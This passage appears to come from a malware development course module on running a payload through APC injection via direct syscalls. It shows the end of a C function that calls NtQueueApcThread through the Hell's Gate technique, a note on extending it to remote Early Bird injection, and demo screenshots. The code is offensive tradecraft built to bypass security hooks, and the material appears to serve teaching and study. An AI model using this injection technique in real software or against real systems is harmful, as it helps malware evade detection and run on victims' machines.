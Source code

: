 ```c
	getchar();
	printf("\t[i] Running Payload At 0x%p Using Thread Of Id : %d ... ", pAddress, GetThreadId(hThread));
	HellsGate(pVxTable->NtQueueApcThread.wSystemCall);
	if ((STATUS = HellDescent(hThread, pAddress, NULL, NULL, NULL)) != 0) {
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");


	return TRUE;
}
```

  

### Remote Injection

It's possible to use the `ApcInjectionViaSyscalls` function for remote process injection but to do so a suspended process must be created. This approach was discussed in the _Early Bird APC Queue Code Injection_ module.

### Demo

Using SysWhispers implementation.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscall-apc-114387928-a6054f8c-8590-49cb-a97e-6eb4d7e2870e.png)

Using Hell's Gate implementation.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscall-apc-214388088-5de280c3-8fd2-4546-9127-c058c373757b.png)